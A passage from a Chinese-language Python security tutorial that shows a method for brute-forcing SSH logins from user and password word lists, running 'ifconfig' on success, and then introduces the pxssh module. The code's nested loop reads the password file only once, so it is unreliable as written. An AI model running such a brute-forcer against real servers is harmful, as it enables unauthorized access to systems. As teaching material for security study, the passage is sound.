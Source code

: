 对于暴力破解过程，我们可以定义一个函数，该函数迭代用户和密码文件，并尝试为每个组合建立`ssh`连接：

```py
 def startSSHBruteForce(self,host): try:
            #open files dictionary
            users_file = open("users.txt")
            passwords_file = open("passwords.txt")
            for user in users_file.readlines():
                for password in passwords_file.readlines():
                    user_text = user.strip("\n")
                    password_text = password.strip("\n")
                    try:
                    #check connection with user and password
                        response = self.ssh_connect(host,user_text,password_text)
                        if response == 0:
                            print("[*] User: %s [*] Pass Found:%s" %(user_text,password_text))
                            stdin,stdout,stderr = self.ssh.exec_command("ifconfig")
                            for line in stdout.readlines():
                                print(line.strip())
                            sys.exit(0)
                        elif response == 1:
                            print("[*]Login incorrect")
                        elif response == 2:
                            print("[*] Connection could not be established to %s" %(host))
                            sys.exit(2)
                except Exception as e:
                    print("Error ssh connection")
                    pass
            #close files
            users_file.close()
            passwords_file.close()
        except Exception as e:
            print("users.txt /passwords.txt Not found")
            pass
```

# 使用 pxssh 进行 SSH 连接

`pxssh`是一个基于 Pexpect 的 Python 模块，用于建立 SSH 连接。它的类扩展了`pexpect.spawn`，以专门设置 SSH 连接。

`pxssh`是一个专门的模块，提供了特定的方法来直接与 SSH 会话交互，比如`login()`，`logout()`和`prompt()`。

**pxssh 文档**

我们可以在`readthedocs`网站上找到`Pexpect`模块的官方文档，网址为[`pexpect.readthedocs.io/en/stable/api/pxssh.html.`](https://pexpect.readthedocs.io/en/stable/index.html)

此外，我们可以使用 Python 终端的`help`命令获取更多信息：

```py
 import pxssh
 help(pxssh)
```

